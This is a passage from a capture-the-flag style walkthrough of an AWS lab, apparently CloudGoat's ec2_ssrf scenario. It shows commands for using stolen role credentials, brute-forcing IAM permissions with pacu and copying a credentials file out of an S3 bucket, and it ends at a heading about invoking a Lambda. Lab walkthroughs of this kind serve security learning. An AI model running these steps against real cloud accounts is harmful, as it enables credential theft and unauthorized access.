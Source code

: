 # Enumerate again(Unguided)

So now we got some new credentials, let's make a new profile with it. Again configure a profile

```bash
aws configure --profile ec2_ssrf
#Pass in the key from earlier
aws sts get-caller-identity --profile ec2_ssrf
```

That last command shouldn't work. Why? I didn't know so I asked chatgpt. What we found was a role and a role is time limited. That means we need to give it the token. There's a few different ways of doing it. The easiest way for me was to run `aws configure set profile.ec2_ssrf.aws_session_token TOKEN_VALUE_HERE`. Now try executing the last command and you should get output!

Let's enumerate the permissions of our current user using pacu:

```bash
pacu
import_keys ec2_ssrf
run iam__enum_permissions
```

And again, permission denied. Time to brute force! Run `run iam__bruteforce_permissions`. All we're trying to do is figure out what this user can do. That first one does enumeration relatively quietly and quickly. The second one takes longer, which is why we're running it as a "last resort". But when you do that you'll see we have a neat permission, we can interact with S3 buckets!

# S3 Bucket Attack! (Unguided)

We're almost there, we just need to grab one more pair of credentials and then run the lambda function. To start off let's find the buckets by running `aws s3 ls --profile ec2_ssrf`. That'll give you a bucket like `cg-secret-s3-bucket-......`. That is probably something useful. Let's go into that bucket

```bash
aws s3 ls s3://cg-secret-s3-bucket-cgidnr0hwro0sg --profile ec2_ssrf
```

There's a folder called `aws`. Let's check that out

```bash
aws s3 ls s3://cg-secret-s3-bucket-cgidnr0hwro0sg/aws/ --profile ec2_ssrf
```

Note that when we're going into subdirectories, we need to append a final /. Not when we're looking at the parent bucket though. After running that we see a file called `credentials`. Let's copy that into our current directory

```bash
aws s3 cp s3://cg-secret-s3-bucket-cgidnr0hwro0sg/aws/credentials . --profile ec2_ssrf
```

Run `cat credentials` and you'll grab our last bag of goodies for this challenge. Our final pair of keys!

# Invoke the Lambda for the Win (Unguided)
